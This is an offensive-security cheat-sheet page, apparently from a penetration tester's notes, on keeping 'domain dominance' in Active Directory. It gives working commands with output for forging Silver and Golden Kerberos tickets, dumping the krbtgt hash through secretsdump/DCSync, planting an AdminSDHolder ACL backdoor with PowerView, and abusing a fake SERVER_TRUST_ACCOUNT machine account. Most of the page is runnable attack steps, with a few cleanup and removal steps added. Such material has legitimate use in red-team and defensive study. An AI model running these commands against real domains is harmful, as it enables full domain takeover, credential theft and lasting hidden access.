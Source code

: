 # Dominance




## Silver Ticket

Using impacket:

```
$ getST.py megacorp.local/'SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889 -dc-ip 192.168.1.11 -spn ldap/srv01.megacorp.local -impersonate 'Administrator'
```

Using Rubeus:

```
Cmd > Rubeus.exe s4u /domain:megacorp.local /dc:dc1.megacorp.local /user:SRV01$ /rc4:fc525c9683e8fe067095ba2ddc971889 /altservice:http/srv01.megacorp.local /impersonateuser:Administrator /self /ptt
```




## Golden Ticket



### impacket

```
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -domain megacorp.local snovvcrash
$ export KRB5CCNAME=`pwd`/snovvcrash.ccache
$ psexec.py megacorp.local/snovvcrash@DC01.megacorp.local -k -no-pass
$ secretsdump.py megacorp.local/snovvcrash@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```




## AdminSDHolder Modification

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
* [https://attack.stealthbits.com/adminsdholder-modification-ad-persistence](https://attack.stealthbits.com/adminsdholder-modification-ad-persistence)



### Create a Backdoor

Add a new domain user or grant an existent user `GenericAll` permissions for the `AdminSDHolder` container:

```
PowerView3 > Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -TargetDomain megacorp.local -PrincipalIdentity snovvcrash -PrincipalDomain megacorp.local -Rights All -Verbose
```

Check that granting `AdminSDHolder` permissions was successfull (may take 60+ minutes for the security ACLs to get updated for that user):

```
PowerView3 > Get-DomainUser snovvcrash | select objectsid
S-1-5-21-2284550090-1208917427-1204316795-9824

PowerView3 > Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=AdminSDHolder,CN=System,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             :
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Now you can add yourself (the "snovvcrash" user) to the Domain Admins group any time and do stuff (actually adding the user to Domain Admins every time is not necessary, as the `AdminCount` attribute will stay `1` anyways after adding the backdoor user to a protected group for the first time):

```
PowerView3 > Add-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PowerView3 > Get-DomainObjectAcl -Identity "Domain Admins" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=Domain Admins,CN=Users,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2284550090-1208917427-1204316795-512
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

PowerView3 > Remove-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PowerView3 > Get-DomainUser snovvcrash | select admincount

admincount
----------
         1
```



### Remove the Backdoor

* [https://www.reddefenseglobal.com/blog/microsoft-domain-attack-techniques/admincount/](https://www.reddefenseglobal.com/blog/microsoft-domain-attack-techniques/admincount/)
* [https://www.ucunleashed.com/1621](https://www.ucunleashed.com/1621)

Disable or remove the account (if a new user was created):

```
PS > net user snovvcrash /domain /active:no
PS > net user snovvcrash /domain /del
```

Remove user AdminSDHolder container via GUI (ADUC, dsa.msc).

Clear the `AdminCount` attribute (will be resetted if the user is still in the `AdminSDHolder` container):

```
PowerView3 > Set-DomainObject -Identity snovvcrash -Domain megacorp.local -Clear admincount -Verbose
Or
PS > Get-ADUser snovvcrash | Set-ADObject -Clear admincount
```

Fix the inheritance rules:

```
PS > [bool]$isProtected = $false
PS > [bool]$PreserveInheritance = $true
PS > [string]$dn = (Get-ADUser snovvcrash).DistinguishedName
PS > $user = [ADSI]"LDAP://$dn"
PS > $acl = $user.objectSecurity
PS > $acl.AreAccessRulesProtected
True  # procced if True
PS > $acl.SetAccessRuleProtection($isProtected, $PreserveInheritance)
PS > $inherited = $acl.AreAccessRulesProtected
PS > $user.commitchanges()
PS > $acl.AreAccessRulesProtected
False
```




## SERVER_TRUST_ACCOUNT

* [https://stealthbits.com/blog/server-untrust-account/](https://stealthbits.com/blog/server-untrust-account/)

When DA is owned (or any other account with `DS-Install-Replica` permission), you can create a fake machine account (or use an existing real machine account), set `SERVER_TRUST_ACCOUNT` bit for it and perform DCSync on behalf of this account to regain domain dominance.

1\. Create a fake machine account:

```
Powermad > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PowerView3 > Get-DomainComputer fakemachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid        useraccountcontrol
----        --------------        ------------------
fakemachine            515 WORKSTATION_TRUST_ACCOUNT
```

2\. Set the `SERVER_TRUST_ACCOUNT` bit:

```
PowerView3 > Set-DomainObject fakemachine -Set @{useraccountcontrol=8192}
PowerView3 > Get-DomainComputer fakemachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid   useraccountcontrol
----        --------------   ------------------
fakemachine            516 SERVER_TRUST_ACCOUNT
```

3\. Perform DCSync:

```
$ secretsdump.py MEGACORP/'fakemachine$:Passw0rd!'@DC01.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
```

4\. Cleanup:

```
PowerView3 > Set-DomainObject fakemachine -Set @{useraccountcontrol=4096}
Or
Powermad > Remove-MachineAccount -MachineAccount fakemachine
```
